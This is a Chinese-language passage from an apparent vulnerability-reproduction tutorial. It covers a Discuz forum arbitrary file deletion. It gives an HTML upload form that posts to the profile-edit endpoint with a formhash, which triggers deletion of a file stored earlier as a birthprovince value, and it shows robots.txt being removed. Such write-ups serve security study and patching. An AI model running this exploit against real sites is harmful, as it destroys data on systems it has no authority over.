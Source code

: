 ```
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">&lt;body&gt;</span><br><span class="line">    &lt;form action="http://[your-ip]/home.php?mod=spacecp&amp;ac=profile&amp;op=base&amp;profilesubmit=1&amp;formhash=[form-hash]" method="post" enctype="multipart/form-data"&gt;</span><br><span class="line">        &lt;input type="file" name="birthprovince" /&gt;</span><br><span class="line">        &lt;input type="submit" value="upload" /&gt;</span><br><span class="line">    &lt;/form&gt;</span><br><span class="line">&lt;/body&gt;</span><br></pre></td></tr></tbody></table>

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

未完待续
